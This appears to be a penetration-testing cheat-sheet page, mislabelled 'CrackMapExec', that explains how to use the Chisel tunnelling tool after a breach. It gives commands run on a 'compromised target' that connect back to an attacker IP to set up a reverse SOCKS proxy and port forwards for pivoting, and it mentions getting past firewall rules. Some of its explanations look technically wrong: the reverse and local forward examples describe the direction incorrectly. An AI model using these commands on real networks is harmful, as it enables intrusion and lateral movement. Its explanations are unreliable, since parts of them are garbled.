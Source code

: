 # CrackMapExec

Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured with SSH. It's a powerful and versatile tool for creating reverse shells, setting up SOCKS proxies for pivoting, and forwarding ports in a highly flexible manner. Chisel is often preferred over standard SSH for its performance, ease of use in certain scenarios, and ability to bypass restrictive firewall rules that might block SSH directly.

{% hint style="info" %}
## Download & Install:

[https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

Download the appropriate static binary from the Chisel GitHub releases page for your attacker machine and the target architecture. Transfer the client binary to the target machine.
{% endhint %}

## Basic Concepts:

* Server Mode: Chisel listens for incoming connections.
* Client Mode: Chisel connects to a Chisel server.

## Common Use Cases:

### Setting up a SOCKS5 Proxy for Pivoting:

1.  On your attacker machine (server):

    ```bash
    chisel server --reverse --port 8000
    ```

    This starts a Chisel server on port 8000, allowing a client to connect back and create a reverse tunnel. The `--reverse` flag enables reverse SOCKS proxy support.
2.  On the compromised target (client):

    ```bash
    chisel client [YOUR_ATTACKER_IP]:8000 R:socks
    ```

    The target connects to your attacker machine. `R:socks` tells the client to create a _reverse_ SOCKS proxy. When this connects, a SOCKS5 proxy will be available on your attacker machine's `localhost:1080` (by default, or a random high port if 1080 is in use, check chisel's output).

You can then configure `proxychains` or your browser to use `localhost:1080` as a SOCKS5 proxy to pivot through the compromised machine.

### Reverse Port Forwarding:

(Exposing a local service to the target)

1.  On your attacker machine (server):

    ```bash
    chisel server --port 8000
    ```
2.  On the compromised target (client): Suppose you have a local HTTP server on your machine on port 8080 that you want the target to access.

    ```bash
    chisel client [YOUR_ATTACKER_IP]:8000 R:80:localhost:8080
    ```

    This tells the target to open port `80` on its localhost, and any traffic to that port will be forwarded to your attacker machine's `localhost:8080`.

### Local Port Forwarding:

(Accessing a target service from your machine)

1.  On your attacker machine (server):

    ```bash
    chisel server --port 8000
    ```
2.  On the compromised target (client): Suppose the target has an internal web server at `192.168.1.50:80`.

    ```bash
    chisel client [YOUR_ATTACKER_IP]:8000 L:8080:192.168.1.50:80
    ```

    This creates a local forward on your attacker machine (where the `chisel server` is running) such that `localhost:8080` will connect to `192.168.1.50:80` through the tunnel.
